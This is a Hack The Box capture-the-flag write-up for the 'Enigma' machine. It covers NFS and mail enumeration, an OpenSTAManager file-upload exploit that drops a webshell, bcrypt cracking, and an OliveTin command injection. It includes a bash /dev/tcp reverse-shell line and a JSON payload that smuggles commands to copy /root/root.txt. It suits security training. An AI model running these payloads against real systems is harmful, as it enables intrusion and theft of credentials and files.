




# Enigma - Easy

Target IP: **10.129.239.191**

## User Flag

Initial scan: ```sudo nmap -sC -sV 10.129.239.191 -v```

There are a lot of ports open.

```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp   open  http     nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://enigma.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp  open  pop3     Dovecot pop3d
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: PIPELINING UIDL SASL RESP-CODES STLS TOP AUTH-RESP-CODE CAPA
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Issuer: commonName=enigma
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-02-18T20:33:33
| Not valid after:  2036-02-16T20:33:33
| MD5:   8361:ca20:2e4e:dff6:6e90:1445:7458:9fc3
|_SHA-1: 9f91:b6ed:85b4:517c:0421:c62e:167d:5631:daa6:5a40
111/tcp  open  rpcbind  2-4 (RPC #100000)
|_rpcinfo: ERROR: Script execution failed (use -d to debug)
143/tcp  open  imap     Dovecot imapd (Ubuntu)
|_imap-capabilities: more LOGINDISABLEDA0001 have STARTTLS ENABLE IDLE LOGIN-REFERRALS capabilities IMAP4rev1 listed post-login SASL-IR LITERAL+ Pre-login ID OK
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Issuer: commonName=enigma
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-02-18T20:33:33
| Not valid after:  2036-02-16T20:33:33
| MD5:   8361:ca20:2e4e:dff6:6e90:1445:7458:9fc3
|_SHA-1: 9f91:b6ed:85b4:517c:0421:c62e:167d:5631:daa6:5a40
993/tcp  open  ssl/imap Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Issuer: commonName=enigma
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-02-18T20:33:33
| Not valid after:  2036-02-16T20:33:33
| MD5:   8361:ca20:2e4e:dff6:6e90:1445:7458:9fc3
|_SHA-1: 9f91:b6ed:85b4:517c:0421:c62e:167d:5631:daa6:5a40
|_imap-capabilities: more AUTH=PLAINA0001 have ENABLE IDLE LOGIN-REFERRALS capabilities IMAP4rev1 listed post-login SASL-IR LITERAL+ Pre-login ID OK
|_ssl-date: TLS randomness does not represent time
995/tcp  open  ssl/pop3 Dovecot pop3d
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: PIPELINING UIDL USER RESP-CODES SASL(PLAIN) TOP AUTH-RESP-CODE CAPA
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Issuer: commonName=enigma
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-02-18T20:33:33
| Not valid after:  2036-02-16T20:33:33
| MD5:   8361:ca20:2e4e:dff6:6e90:1445:7458:9fc3
|_SHA-1: 9f91:b6ed:85b4:517c:0421:c62e:167d:5631:daa6:5a40
2049/tcp open  nfs      3-4 (RPC #100003)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add ```enigma.htb``` to our ```/etc/hosts``` file and navigate to it.

We are greeted with this home page.

.jpg

There doesn't seem to be actual functionalities, just a static site.

Further directory and subdomain enumeration doesn't give us anything useful, so let's pivot.

Running ```rpcinfo``` shows us that NFS is running on port 2049, like with the scan.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ipig0owiod]─[~]
└──╼ [★]$ rpcinfo -p 10.129.239.191
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100005    1   udp  57933  mountd
    100005    1   tcp  52713  mountd
    100005    2   udp  34038  mountd
    100005    2   tcp  34425  mountd
    100005    3   udp  38148  mountd
    100005    3   tcp  48311  mountd
    100024    1   udp  45122  status
    100024    1   tcp  33099  status
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
    100021    1   udp  48028  nlockmgr
    100021    3   udp  48028  nlockmgr
    100021    4   udp  48028  nlockmgr
    100021    1   tcp  41131  nlockmgr
    100021    3   tcp  41131  nlockmgr
    100021    4   tcp  41131  nlockmgr
```

Checking the NFS service, we see that this folder is available for us to mount.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ipig0owiod]─[~]
└──╼ [★]$ showmount -e 10.129.239.191
Export list for 10.129.239.191:
/srv/nfs/onboarding *
```

Let's mount this folder.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ipig0owiod]─[~]
└──╼ [★]$ sudo mount -t nfs 10.129.239.191:/srv/nfs/onboarding /home/htb-mp-3199654/mount -o nolock
```

We have a single file inside of our mount.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ipig0owiod]─[~]
└──╼ [★]$ cd mount
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ipig0owiod]─[~/mount]
└──╼ [★]$ ls
New_Employee_Access.pdf
```

Looking inside the ```.pdf```, we get a set of credentials for what I assume is the mail servers on the remote machine. We have another subdomain, so let's add it to our ```/etc/hosts``` file.



Let's initiate a secure connection to the IMAPS server.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ipig0owiod]─[~/mount]
└──╼ [★]$ openssl s_client -connect 10.129.239.191:993
```

We can log in with the credentials we found.

```
read R BLOCK
* OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ AUTH=PLAIN] Dovecot (Ubuntu) ready.
a LOGIN kevin Enigma2024!
a OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SNIPPET=FUZZY PREVIEW=FUZZY PREVIEW STATUS=SIZE SAVEDATE LITERAL+ NOTIFY SPECIAL-USE] Logged in
```

There is an item in ```INBOX```.

```
a LIST "" *
* LIST (\NoInferiors \Sent) "/" Sent
* LIST (\NoInferiors \Trash) "/" Trash
* LIST (\HasNoChildren) "/" INBOX
a OK List completed (0.001 + 0.000 secs).
a SELECT INBOX
* FLAGS (\Answered \Flagged \Deleted \Seen \Draft)
* OK [PERMANENTFLAGS (\Answered \Flagged \Deleted \Seen \Draft \*)] Flags permitted.
* 1 EXISTS
* 0 RECENT
* OK [UIDVALIDITY 1771449871] UIDs valid
* OK [UIDNEXT 3] Predicted next UID
* OK [HIGHESTMODSEQ 6] Highest
a OK [READ-WRITE] Select completed (0.001 + 0.000 secs).
```

We can read the email. This tells us that there is a potential ```sarah``` user, but no other useful information.

```
a FETCH 1 (RFC822)
* 1 FETCH (RFC822 {1473}
Return-Path: <sarah@enigma.htb>
X-Original-To: kevin@localhost
Delivered-To: kevin@localhost
Received: from enigma (localhost [127.0.0.1])
	by enigma (Postfix) with ESMTP id 673F7211B9
	for <kevin@localhost>; Wed, 18 Feb 2026 21:29:13 +0000 (UTC)
Date: Wed, 18 Feb 2026 21:29:13 +0000
To: kevin@localhost
From: sarah@enigma.htb
Subject: Welcome to Enigma Corp, Kevin!
Message-Id: <20260218212913.010896@enigma>
X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/

Hi Kevin,

Welcome to the team! We're thrilled to have you on board at Enigma Corp.

A little about us — Enigma Corp is a mid-sized technology and operations firm specializing in infrastructure management and enterprise solutions. We've been growing rapidly over the past few years and we're excited to have fresh talent joining us.

I'm Sarah from the Accounts department. I'll be your point of contact for any finance-related queries during your onboarding period.

We're still finalizing a few of your onboarding details — your system access, equipment setup, and department introductions are all being arranged by the IT team. You should be receiving your access credentials shortly via the company shared drive.

In the meantime, don't hesitate to reach out if you have any questions. We want to make sure your first few days are as smooth as possible.

Looking forward to working with you!

Best regards,
Sarah
Accounts Department
Enigma Corp
sarah@enigma.htb

)
```

Let's look at the pop3s server.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ipig0owiod]─[~/mount]
└──╼ [★]$ openssl s_client -connect 10.129.239.191:995
read R BLOCK
+OK Dovecot (Ubuntu) ready.
USER kevin
+OK
PASS Enigma2024!
+OK Logged in.
```

It has the same email.

After a bit, I realized that I put in ```mail01.enigma.htb``` instead of ```mail001```. When I was navigating to ```mail01.enigma.htb```, it was just bringing me back to the home page, so I ignored it. After fixing the entry in ```/etc/hosts```, we can see a Roundcube Webmail instance on the subdomain.

Let's log in. It has the same email that we saw.



At this point, we pretty much exhausted our options, so I think what we can do is try using the same password for ```sarah```.

It works! Inside, we find a new subdomain and a new set of credentials.



Let's add it to our hosts file, navigate, and authenticate.

This is an instance of OpenSTAManager, and at the bottom we can see that it is version 2.9.8.



This version is vulnerable to CVE-2026-38751, a file upload vulnerability.

Let's use this [PoC](https://github.com/Why-Shell/CVE-2026-38751).

After running the exploit, we catch a shell as ```www-data```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ipig0owiod]─[~/CVE-2026-38751]
└──╼ [★]$ python3 exploit.py -u http://support_001.enigma.htb -U admin -P Ne3s4rtars78s --lhost 10.10.15.194 --lport 4444

[ CVE-2026-38751 — OpenSTAManager RCE ]

[*] Target: http://support_001.enigma.htb

[*] 1/4 Authenticating...
[+] Authenticated as: admin
[*] 2/4 Enabling module updates...
[+] Module updates enabled
[*] 3/4 Uploading malicious module...
[*] Malicious ZIP built in memory
[*] Upload → HTTP 500
[*] 4/4 Verifying webshell...
[+] Webshell active: http://support_001.enigma.htb/modules/shell/shell.php
[*] Sending payload to 10.10.15.194:4444
[*] Make sure your listener is ready: penelope -p 4444
[+] Payload delivered — check your Penelope listener

[?] Press Enter once your session is done to clean up...
```

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ipig0owiod]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.239.191 43112
bash: cannot set terminal process group (1502): Inappropriate ioctl for device
bash: no job control in this shell
www-data@enigma:~/html/openstamanager/modules/shell$ whoami
whoami
www-data
```

There are a lot of users in ```/home``` to which our current user doesn't have any access to.

```
www-data@enigma:/home$ ls -la
ls -la
total 24
drwxr-xr-x  6 root  root  4096 Jun 23 14:14 .
drwxr-xr-x 23 root  root  4096 Jun 23 14:14 ..
drwxr-x---  4 haris haris 4096 Jun 23 14:21 haris
drwxr-x---  2 it    it    4096 Jun 23 14:14 it
drwxr-x---  3 kevin kevin 4096 Jun 23 14:14 kevin
drwxr-x---  3 sarah sarah 4096 Jun 23 14:14 sarah
```

Inside ```/var/www/html/openstamanager```, the ```config.inc.php``` file gives us database credentials.

```
$db_host = 'localhost';
$db_username = 'brollin';
$db_password = 'Fri3nds@9099';
$db_name = 'openstamanager';
```

Let's authenticate to the database.

```
www-data@enigma:~/html/openstamanager$ mysql -u brollin -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 220
Server version: 8.0.46-0ubuntu0.24.04.3 (Ubuntu)

Copyright (c) 2000, 2026, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

We can switch to the ```openstamanager``` database. The ```zz_users``` table looked the most promising, and getting the output of that table, we find some hashes.

```
mysql> SELECT * FROM zz_users;
+----+----------+--------------------------------------------------------------+------------------+--------------+----------+---------+---------------------+---------------------+-------------+---------------+---------+
| id | username | password                                                     | email            | idanagrafica | idgruppo | enabled | created_at          | updated_at          | reset_token | image_file_id | options |
+----+----------+--------------------------------------------------------------+------------------+--------------+----------+---------+---------------------+---------------------+-------------+---------------+---------+
|  1 | admin    | $2y$10$rTJVUNyGGKPlhw2cFdf5AeDHVMhnIChddcHx2XxVLMQS2KsuSz4Pu | admin@enigma.htb |            1 |        1 |       1 | 2026-02-18 19:26:52 | 2026-02-18 19:26:52 | NULL        |          NULL |         |
|  2 | haris    | $2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC | haris@enigma.htb |            1 |        5 |       1 | 2026-02-18 20:58:28 | 2026-05-26 11:07:03 | NULL        |          NULL |         |
+----+----------+--------------------------------------------------------------+------------------+--------------+----------+---------+---------------------+---------------------+-------------+---------------+---------+
2 rows in set (0.00 sec)
```

I think we are looking for ```haris```' password, as he was on the home directory of the machine. These look like bcrypt hashes.

Let's get the hash for ```haris``` over to our attack box and crack it.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ipig0owiod]─[~]
└──╼ [★]$ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt 

$2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC:bestfriends
```

Nice, let's use this to log in as ```haris```.

```
www-data@enigma:~/html/openstamanager$ su - haris
Password: 
haris@enigma:~$ whoami
haris
```

We can proceed to get the user flag from here.

## Root Flag

```sudo -l``` tells us that ```haris``` can't run ```sudo```.

What seemed interesting when I got the initial foothold was ```OliveTin```. It wasn't directly useful back then, but it wouldn't be there if it had no purpose.

```/usr/local/bin/OliveTin``` was being ran by ```root```.

```
root        1490       1  0 13:57 ?        00:00:00 /usr/local/bin/OliveTin
```

A Google search reveals that the configuration file is ```/etc/OliveTin/config.yaml```. Let's look at it.

OliveTin is listening on localhost port 1337. We can issue commands using the api endpoint.

```
haris@enigma:/etc/OliveTin$ cat config.yaml
# There is a built-in micro proxy that will host the webui and REST API all on
# one port (this is called the "Single HTTP Frontend") and means you just need
# one open port in the container/firewalls/etc.
#
# Listen on all addresses available, port 1337
listenAddressSingleHTTPFrontend: 127.0.0.1:1337
```

The ```backup_database``` action looks interesting. Since it takes ```db_user```, ```db_pass```, and ```db_name``` arguments from user input, we could possible inject a command here.

```
  - title: Backup Database
    id: backup_database
    icon: "⛁"
    shell: "mysqldump -u {{ db_user }} -p'{{ db_pass }}' {{ db_name }} > /opt/backups/backup.sql"
    popupOnStart: execution-dialog
    arguments:
      - name: db_user
        type: ascii_identifier
        default: backup_svc
      - name: db_pass
        type: password
      - name: db_name
        type: ascii_identifier
        default: production
```

It seems like authentication is disabled as well.

```
# Security - Authentication

# This setting effectively enables or disables guests. 
# If set to "true", then users will have to login to do anything.
authRequireGuestsToLogin: false
```

Let's start this action with a malicious injection in the parameters.

```
haris@enigma:/etc/OliveTin$ curl 'http://localhost:1337/api/StartAction' --json '{"bindingId": "backup_database", "arguments": [{"name": "db_user", "value": "hi"},{"name": "db_pass", "value": "hi'; bash -c 'bash -i >& /dev/tcp/10.10.15.194/4445 0>&1'; lol"},{"name": "db_name", "value": "hi"}]}'
```

We do get a connection back which indicates the injection was successful, but I think something is going wrong with the parsing or syntax.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ipig0owiod]─[~]
└──╼ [★]$ nc -lvnp 4445
Listening on 0.0.0.0 4445
Connection received on 10.129.239.191 37692
-bash: 1; lol"},{"name": "db_name", "value": "hi"}]}: ambiguous redirect
```

We could just have it read out the content of the root flag.

Let's organize our payload by putting it in a JSON file. I had some trouble here because I was trying to put the whole payload in one command, and the terminal was mistreating the single quotation mark needed to break out of the string context of the back-end command.

Here is ```payload.json```. I want to copy the root flag to our home directory and make it readable. We close the string context in the ```db_pass``` parameter and then inject our two commands, then comment out the rest.

```
{
  "bindingId": "backup_database",
  "arguments": [
    {"name": "db_user", "value": "hi"},
    {"name": "db_pass", "value": "hi' ; /bin/cp /root/root.txt /home/haris/root.txt ; /bin/chmod 644 /home/haris/root.txt ; #"},
    {"name": "db_name", "value": "hi"}
  ]
}
```

After we send a request to the API endpoint with this payload as the data, we get the flag.

```
haris@enigma:~$ curl 'http://localhost:1337/api/olivetin.api.v1.OliveTinApiService/StartAction' --header "Content-Type: application/json" --data @/home/haris/payload.json
{"executionTrackingId":"022de74b-111e-4871-a695-fa6cad41889d"}
haris@enigma:~$ ls
linpeas.sh  mail  payload.json  root.txt  user.txt
```

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
